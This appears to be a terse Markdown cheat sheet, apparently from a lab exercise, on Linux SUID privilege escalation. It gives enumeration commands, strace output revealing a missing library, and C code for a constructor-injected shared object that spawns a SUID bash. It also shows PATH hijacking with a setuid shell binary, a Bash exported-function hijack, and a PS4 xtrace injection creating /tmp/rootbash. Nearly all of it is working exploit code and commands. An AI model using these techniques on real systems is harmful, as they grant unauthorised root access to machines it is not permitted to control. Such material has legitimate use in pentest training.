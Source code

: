    ## Enumeration
    
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
    strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c


  ## Run The Program
  
    /usr/local/bin/suid-so

   ####  Environment Variables
                
    env
    find / -type f -perm -04000 -ls 2>/dev/null
    /usr/local/bin/suid-env
    strings /usr/local/bin/suid-env
    echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH
    print $PATH
    /usr/local/bin/suid-env
    function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
    export -f /usr/sbin/service
    /usr/local/bin/suid-env2



   
   ##  evn
     
   This will not work on Bash versions 4.4 and above
  ''' 
   When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
   ,,,
   Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of          /bin/bash:
 
      env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
      /tmp/rootbash -p
     
    

